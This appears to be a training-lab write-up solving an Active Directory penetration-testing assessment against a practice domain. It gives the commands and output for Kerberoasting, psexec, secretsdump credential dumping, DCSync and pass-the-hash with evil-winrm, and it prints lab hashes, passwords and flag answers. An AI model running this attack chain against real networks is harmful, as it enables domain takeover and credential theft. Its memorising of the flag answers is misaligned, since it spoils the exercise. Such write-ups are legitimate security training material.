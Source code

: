 # AD Enumeration & Attacks - Skills Assessment Part I

### Scenario

A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the `/uploads` directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

### Questions

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

<figure><img src="../../../.gitbook/assets/image (49) (2).png" alt=""><figcaption><p>got a revshell and obtained the flag.</p></figcaption></figure>

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>svc_sql</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60) (2).png" alt=""><figcaption></figcaption></figure>

**Crack the account's password. Submit the cleartext value.**

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption><p>lucky7</p></figcaption></figure>

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

we have to know what IP does MS01 has&#x20;

```
Resolve-IPAddress -ComputerName MS01
```

<figure><img src="../../../.gitbook/assets/image (20) (3) (1).png" alt=""><figcaption><p>172.16.6.50</p></figcaption></figure>

When SMB scan was performed, there were ADMIN$ and C$ shares, which were read and writable.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption><p>Admin share writable</p></figcaption></figure>

Next logical step is to run impacket-psexec to gain a shell using this credential.

```
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> systeminfo
 
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA100
Original Install Date:     3/30/2022, 3:56:23 AM
System Boot Time:          7/5/2023, 10:04:57 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 3,198 MB
Virtual Memory: Max Size:  4,799 MB
Virtual Memory: Available: 4,000 MB
Virtual Memory: In Use:    799 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    INLANEFREIGHT.LOCAL
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB5009472
                           [02]: KB4535680
                           [03]: KB4589208
                           [04]: KB5010427
                           [05]: KB5009642
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 172.16.6.50
                                 [02]: fe80::fc35:9ed3:e474:d620
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Windows\system32> 

```

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption><p>spn$<em>r0ast1ng_on</em>@n_0p3n_f1re</p></figcaption></figure>

Note that RDP is also available for this host.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

<figure><img src="../../../.gitbook/assets/image (16) (2).png" alt=""><figcaption><p>nothing useful</p></figcaption></figure>

```
proxychains impacket-secretsdump INLANEFREIGHT.LOCAL/svc_sql:lucky7@172.16.6.50 -outputfile inlanefreight_hashes 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.16.6.50:445  ...  OK
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x9521a9e7c65245ab8cdd792e7f6d20df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
[*] Dumping cached domain logon information (domain/username:hash)
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
INLANEFREIGHT\MS01$:aes256-cts-hmac-sha1-96:7ec92cbf5c0978d63da9ca099e9e15131fa9f8f83f6e0c850dc27fbf5bd3c294
INLANEFREIGHT\MS01$:aes128-cts-hmac-sha1-96:34eddfc4c6391fe4fcea4cd8e6f000aa
INLANEFREIGHT\MS01$:des-cbc-md5:1a2c5df13885f80b
INLANEFREIGHT\MS01$:plain_password_hex:19e615bcf39b1aa4ee984e52f1d993a21c6943bd6d90ca901ff0a676620f637ee41049607477f7560972a707da615942143dd3ec94e50b4a73d1539f51e312b591594d5b365a52d56cfc4cc2bbe4cd5014165fd6e9ba47530321d9361e63a6de7400435ab03b6c15e45f222bb511637855b14f7807cd3b29622540ffadf25300326fea2d197d42dd0e70eb082147e355596f39ee809ce68092d89e56f6427824d436b3a932da26f4bfcf7cf0ec8024e222af81521df95eeca49d8a9260baafc27725e940c28299dfa54a6e997aa673d77f00d0bdf7a389aaf4cf0037f6c9d8165b6b185ec135b59eda45b74170a91ec6
INLANEFREIGHT\MS01$:aad3b435b51404eeaad3b435b51404ee:e97a877bf59d4102321bded442896bee:::
[*] DefaultPassword 
INLANEFREIGHT\tpetty:Sup3rS3cur3D0m@inU2eR
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x8dbe842a7352000be08ef80e32bb35609e7d1786
dpapi_userkey:0xb20d199f3d953f7977a6363a69a9fe21d97ecd19
[*] NL$KM 
 0000   A2 52 9D 31 0B B7 1C 75  45 D6 4B 76 41 2D D3 21   .R.1...uE.KvA-.!
 0010   C6 5C DD 04 24 D3 07 FF  CA 5C F4 E5 A0 38 94 14   .\..$....\...8..
 0020   91 64 FA C7 91 D2 0E 02  7A D6 52 53 B4 F4 A9 6F   .d......z.RS...o
 0030   58 CA 76 00 DD 39 01 7D  C5 F7 8F 4B AB 1E DC 63   X.v..9.}...K...c
NL$KM:a2529d310bb71c7545d64b76412dd321c65cdd0424d307ffca5cf4e5a03894149164fac791d20e027ad65253b4f4a96f58ca7600dd39017dc5f78f4bab1edc63
[*] Cleaning up... 
[*] Stopping service RemoteRegistry

```

```
tpetty:Sup3rS3cur3D0m@inU2eR
```

**Submit this user's cleartext password.**

```
Sup3rS3cur3D0m@inU2eR
```

**What attack can this user perform?**

```
$sid = Convert-NameToSid tpetty
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

<figure><img src="../../../.gitbook/assets/image (38) (1) (1).png" alt=""><figcaption><p>DS-Replication-Get-Changes-All</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption><p>DS-Replication-Get-Changes-In-Filtered-Set</p></figcaption></figure>



DCSync

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

First we have to know what IP is the DC by using the following command.

<figure><img src="../../../.gitbook/assets/image (7) (3).png" alt=""><figcaption><p>172.16.6.3</p></figcaption></figure>

```
proxychains impacket-secretsdump -just-dc INLANEFREIGHT/tpetty:'Sup3rS3cur3D0m@inU2eR'@172.16.6.3 -outputfile ilf_dcsync
```

<figure><img src="../../../.gitbook/assets/image (74) (2).png" alt=""><figcaption></figcaption></figure>

We got the administrator hash, I tried to crack it but doesn't seems to work the next step will be pass the hash attack because of the dcsync command seems to be going on forever with more than thousand people already.

`27dedb1dab4d8545c6e1c66fba077da0`

xfreerdp didn't work but evil-winrm did

```
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption><p>r3plicat1on_m@st3r!</p></figcaption></figure>
